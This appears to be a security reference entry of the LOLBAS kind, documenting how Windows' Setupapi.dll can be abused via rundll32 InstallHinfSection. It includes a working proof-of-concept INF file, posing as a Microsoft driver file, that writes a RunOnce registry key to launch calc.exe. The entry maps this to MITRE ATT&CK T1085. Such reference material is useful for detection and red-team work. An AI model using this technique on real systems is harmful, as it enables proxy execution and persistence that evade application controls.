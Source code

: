 ## Setupapi.dll

* Functions: Execute

```
rundll32 setupapi,InstallHinfSection DefaultInstall 132 c:\temp\calc.inf
```

Acknowledgements:
* Pierre-Alexandre Braeken - @pabraeken

Code sample:
* 

Resources:
* https://twitter.com/pabraeken/status/994742106852941825

Full path:
```
c:\windows\system32\Setupapi.dll
c:\windows\sysWOW64\Setupapi.dll
```


Notes:
calc.inf
```
; DRIVER.INF
; Copyright (c) Microsoft Corporation.  All rights reserved.
 
[Version]
Signature = "$CHICAGO$"
Class=61883
ClassGuid={7EBEFBC0-3200-11d2-B4C2-00A0C9697D17}
Provider=%Msft%
DriverVer=06/21/2006,6.1.7600.16385
 
[DestinationDirs]
DefaultDestDir = 1
 
[DefaultInstall]
AddReg = CalcStart

[CalcStart]
HKLM,Software\\Microsoft\\Windows\\CurrentVersion\\RunOnce,Install,,cmd.exe /c """calc.exe"""
```
MITRE ATT&CK:
* [Rundll32](https://attack.mitre.org/wiki/Technique/T1085)
